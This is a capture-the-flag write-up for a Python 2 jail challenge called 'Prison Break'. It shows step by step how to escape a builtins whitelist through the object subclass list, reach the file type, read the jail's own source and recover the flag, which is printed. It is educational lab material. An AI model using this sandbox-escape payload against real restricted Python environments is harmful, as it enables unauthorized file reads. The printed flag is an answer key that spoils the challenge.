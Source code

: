 # Prison Break

Author: [roerohan](https://github.com/roerohan)

## Description

This is a python jail challenge.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Basic Python.

## Sources

```
I saw them put someone in jail. Can you find out who it is?
They said this is the best prison ever built. You sure can't break it, can you?
```

## Exploit

This is a classic jail challenge where some `builtins` have been blocked, such as `import`, `exec`, `file`, `quit`, `execfile`, etc. Your job is to find the flag hidden on the server. When you connect to the program you see:

```python
$ python2 jail.py
Find the flag.
>>> print 1+1
2
```

When you try `print 1+1`, you see that it works even without the `()`, indicating that this is `python2`. You can try to print some things to check what functions are allowed.

```python
>>> __import__('system')
You have encountered an error.
>>> __import__
You have encountered an error.
>>> exec
You have encountered an error.
>>> execfile
You have encountered an error.
>>> print dir()      
['code_string', 'self']
```

So, we see that `dir` is allowed, we can use that to check out the allowed builtins.

```python
>>> print dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'Exception', 'False', 'None', 'True', 'abs', 'basestring', 'bin', 'bytearray', 'bytes', 'complex', 'dict', 'dir', 'help']
```

We see that `dict` is allowed. So, we can use the `__class__` to find the class, then we can use `__base__` to find the baseclass. Now there's a `__subclasses__` function that shows all the classes of that base class, which basically shows all the classes you'd need. 

```python
>>> print dict.__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class '__main__.Sandbox'>]
```

Notice the `<type 'file'>` in the array. We can use this to access the `read` function on `type` file. We can loop through this list (or count) to find that the index of `<type 'file>` is 40.

```python
>>> print dict.__class__.__base__.__subclasses__()[40]
<type 'file'>
```

Now, we can call `.read()` on this! Let's try to read `flag.txt`.

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40]('flag.txt', 'r').read()
The flag is in the source code.
```

Great, so we know where the flag is, but we don't know the file name. However, we can use `__file__`.

```
__file__ is a variable that contains the path to the module that is currently being imported. Python creates a __file__ variable for itself when it is about to import a module. The updating and maintaining of this variable is the responsibility of the import system.
```

So, the final payload will be:

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40](__file__, 'r').read()
#!/usr/bin/python2

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        code = _raw_input(">>> ")
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
```

You get the source code, and you see the flag in it.
<br />

The flag is:

```
csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}
```

